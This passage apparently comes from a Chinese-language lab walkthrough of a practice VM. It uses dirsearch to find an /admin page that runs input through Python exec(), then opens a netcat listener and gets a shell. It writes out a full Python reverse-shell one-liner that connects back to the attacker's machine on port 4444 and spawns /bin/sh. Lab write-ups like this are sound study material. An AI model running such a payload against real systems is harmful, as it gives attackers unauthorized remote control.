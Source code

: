 ### 6.目录扫描

对**目录路径**进行发现（**隐藏路径/页面**）

```
dirsearch -u http://10.0.2.5:5000
```

![image-20210918103746798](https://gitee.com/byesec/picture/raw/master//target/Week1//image-20210918103746798.png)

结果显示得到**/admin**路径

### 7.发现远程代码执行漏洞页面

浏览器访问：http://10.0.2.5:5000/admin     页面如图

![image-20210918103832110](https://gitee.com/byesec/picture/raw/master//target/Week1//image-20210918103832110.png)

该页面提示**“Code testing page” “Nothing was ran. Input some code to exec()”**

可联想到是否可以利用**Python**语言运行环境的**代码执行**触发**反弹shell**

#### 7.1监听4444端口

在攻击机Kali上**监听端口**4444

```
nc -nvlp 4444
```

![image-20211009143219519](https://gitee.com/byesec/picture/raw/master//target/Week2//image-20211009143219519.png)

#### 7.2执行Python脚本

在浏览器端的页面内执行Python脚本

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.4",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

![image-20210918104035254](https://gitee.com/byesec/picture/raw/master//target/Week1//image-20210918104035254.png)

#### 7.3反弹shell成功连接

打开kali监听端，可看到已经**成功连接**，并执行**ls**查看当前目录下**文件信息**，**id**查看当前**用户权限**

```
ls
```

```
id
```

![image-20210918104101495](https://gitee.com/byesec/picture/raw/master//target/Week1//image-20210918104101495.png)
